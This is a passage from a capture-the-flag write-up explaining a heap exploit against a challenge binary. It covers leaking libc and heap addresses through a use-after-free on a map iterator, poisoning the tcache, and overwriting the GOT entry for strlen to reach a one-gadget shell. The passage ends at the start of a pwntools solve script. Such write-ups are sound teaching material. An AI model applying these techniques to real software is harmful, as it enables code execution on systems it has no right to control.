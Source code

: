 ```
} else {
  it->second = message;
}
```

To exploit the leak, we can repeatedly call `add(), remove(), add(), remove()` to allocate and then free chunks into the tcache. Note that two iterations of `add()` and `remove()` are required to get a single chunk into the tcache, since on the first iteration, any `it->first` strings which are freed by `remove()` will be immediately reallocated to hold the key of the assignment
```cpp
} else {
  black_list[name] = "";
}
``` 
On the second iteration, the key already exists, and so will not need to be reallocated, leaving our freed `it->first` string in the tcache. Once the tcache is filled, we can use the main bug in `remove()` to obtain an iterator where `it->second` is a free chunk lying in the unsorted or smallbins list. From there, the read-after-free at
```cpp
std::cout << "Do you want to delete the sent message: " << it->second
<< "(yes or no)" << std::endl;
``` 
will leak both a libc address and a heap address.


To exploit the write, we can use the main bug to obtain an invalidated iterator `it` where `it->second` is freed and lies in the tcache. Then we can use the write-after-free to poison the tcache and write to an arbitrary location.

In practice, I found difficulty leveraging the write after the tcache was
poisoned. This is because almost every function in the program will
symmetrically call `malloc` on entry, and then `free` when variables fall out of
scope, leaving almost no cases where a poisoned tcache chunk (such as one
pointing to `__malloc_hook` or `__free_hook`) could be successfully malloced
without also being freed in the same function and causing an abort. 

Luckily, I found that during the process of the program aborting, libc makes a call to `strlen` inside of `__libc_message`. Hence we can leverage our tcache poisoning to corrupt the GOT entry for `strlen`, and then hijack execution to point to a one gadget which will give us a shell. 

Below is the full solve script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.terminal = "pwn-client.sh"
context.log_level = "debug"

exe = context.binary = ELF(args.EXE or "fl_support_center_patched")
libc = exe.libc


def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug([exe.path] + argv, api=True, gdbscript=gdbscript, *a, **kw)
    elif args.LOCAL:
        return process([exe.path] + argv, *a, **kw)
    else:
        return connect(args.HOST, args.PORT)


gdbscript = """
tbreak main
continue
""".format(
```